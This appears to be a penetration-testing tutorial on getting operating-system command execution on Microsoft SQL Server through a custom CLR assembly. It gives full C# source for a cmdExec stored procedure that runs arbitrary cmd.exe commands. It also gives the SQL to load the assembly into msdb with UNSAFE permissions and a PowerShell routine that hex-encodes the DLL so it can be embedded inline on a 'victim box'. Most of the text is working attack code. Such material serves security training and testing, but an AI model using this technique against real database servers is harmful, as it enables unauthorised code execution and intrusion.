

## The Assembly
If a database has the TRUSTWORTHY property set, it's possible to use the [_CREATE ASSEMBLY_](https://docs.microsoft.com/en-us/sql/t-sql/statements/create-assembly-transact-sql?view=sql-server-ver15) statement to import a managed DLL as an object inside the SQL server and execute methods within it.

We'll start building our c# dll.

We Create a method (cmdExec) that must be stored as a procedure:
```C#
[Microsoft.SqlServer.Server.SqlProcedure]
```
We are going to write code that starts a command prompt and executes the command given inside the _execCommand_ argument

The [_Process_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process?view=netframework-4.8) class is used to start a process while allowing us to supply arguments through the [_StartInfo_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process.startinfo?view=netframework-4.8) property.
We also use [_FileName_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.processstartinfo.filename?view=netframework-4.8#System_Diagnostics_ProcessStartInfo_FileName) and [_Arguments_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.processstartinfo.arguments?view=netframework-4.8#System_Diagnostics_ProcessStartInfo_Arguments) properties of _StartInfo_ to specify "cmd.exe" and the command to execute respectively.
[_UseShellExecute_]() is set to "false" to ensure that the command prompt is created directly from cmd.exe.
[_RedirectStandardOutput_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.processstartinfo.redirectstandardoutput?view=netframework-4.8#System_Diagnostics_ProcessStartInfo_RedirectStandardOutput) to "true" so the output from the command prompt does not get printed to the console, but stored in a pipe instead.

```C#
Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();
```
Calling the [_Start_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process.start?view=netframework-4.8) method creates the process and executes the command supplied 
in the _execCommand_ argument.

Any output generated as a result of the command line input is not sent to the console, but we can retrieve it using the [_Pipe_](https://docs.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlcontext.pipe?view=netframework-4.8) property of the [_SqlContext_](https://docs.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlcontext?view=netframework-4.8) class.
The _Pipe_ property is actually an embedded object instantiated from the _SqlPipe_ [class](https://docs.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlpipe.sendresultsstart?view=netframework-4.8), which allows us to record SQL data and return it to the caller.
We use a combination of [_SendResultsStart_](https://docs.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlpipe.sendresultsstart?view=netframework-4.8), [_SendResultsRow_](https://docs.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlpipe.sendresultsrow?view=netframework-4.8), and [_SendResultsEnd_](https://docs.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlpipe.sendresultsend?view=netframework-4.8), to start recording, record data, and stop recording respectively.

```C#
SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", System.Data.SqlDbType.NVarChar, 4000));
SqlContext.Pipe.SendResultsStart(record);
record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
SqlContext.Pipe.SendResultsRow(record);
SqlContext.Pipe.SendResultsEnd();
```
(The object used by these APIs to record data into is of type _SqlDataRecord_.)

To send the output from the command prompt to the SQL record, we copy the contents of the _Process_ object [_StandardOutput_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process.standardoutput?view=netframework-4.8) property into the record.
This is then returned as part of the result set from the SQL query.

Finally, we force the cmd.exe process to wait until all actions are completed and subsequently close it.
Our final code will look something like so:

```C#
using System;
using Microsoft.SqlServer.Server;
using System.Data.SqlTypes;
using System.Diagnostics;

public class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmdExec (SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", System.Data.SqlDbType.NVarChar, 4000));
        SqlContext.Pipe.SendResultsStart(record);
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
        SqlContext.Pipe.SendResultsRow(record);
        SqlContext.Pipe.SendResultsEnd();

        proc.WaitForExit();
        proc.Close();
    }
};
```

## The Console Application
Once we have compiled the code into a DLL, we have the assembly that we are going to load into the SQL server and execute.
We will be targeting msdb as it has TRUSTWORTHY property set by default.

We will enable [CLR Intergration](https://docs.microsoft.com/en-us/sql/relational-databases/clr-integration/clr-integration-enabling?view=sql-server-ver15) setting with sp_configure so we can create a stored procedure from an assembly.
We can now import the assembly with the _CREATE ASSEMBLY_ statement.
We must supply a custom assembly name, a file location, and specify the PERMISSION_SET to be UNSAFE to allow execution of unsigned .NET code.

```SQL
CREATE ASSEMBLY myAssembly FROM 'c:\tools\cmdExec.dll' WITH PERMISSION_SET = UNSAFE;
```

Once the DLL has been imported, we need to create a procedure based on the _cmdExe_ method with the _CREATE PROCEDURE_ statement.
we first specify the "CREATE PROCEDURE" statement followed by the name we want to assign to our custom procedure ([dbo].[cmdExec]) and the argument(s) it accepts "(@execCommand NVARCHAR (4000))" which will be executed when our procedure is invoked:

```SQL
CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec];
```
(The last half of the SQL query starts with the _AS_ keyword and then specifies the location of the C# method to create a procedure from)

As the final step, we invoke the newly-created procedure and supply an argument:
```SQL
EXEC cmdExec 'whoami'
```

Executing our c# console application, gives us code execution:


However, realistically, we can't copy the assembly on the victim box.
It is possible to directly embed the assembly in the CREATE ASSEMBLY SQL query.
We will directly put a hexadecimal string containing the binary content of the assembly in the FROM clause instead of specifying the file path.

We use the following powershell commands to convert it:
```Powershell
$assemblyFile = "\\192.168.119.120\visualstudio\Sql\cmdExec\bin\x64\Release\cmdExec.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder 

$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$stringBuilder.ToString() -join "" | Out-File c:\Tools\cmdExec.txt
```

We can change our sql statement to the following:
```SQL
CREATE ASSEMBLY my_assembly FROM 0x4D5A900..... WITH PERMISSION_SET = UNSAFE;
```

As a cleanup, we need to confirm that previous assembly and procedures in it have been dropped.
we use the following sql statements:
```SQL
DROP PROCEDURE cmdExec
DROP ASSEMBLY myAssembly --myassembly is the name of the assmebly
```

With this, we can execute the query with the embedded assembly and get code execution:
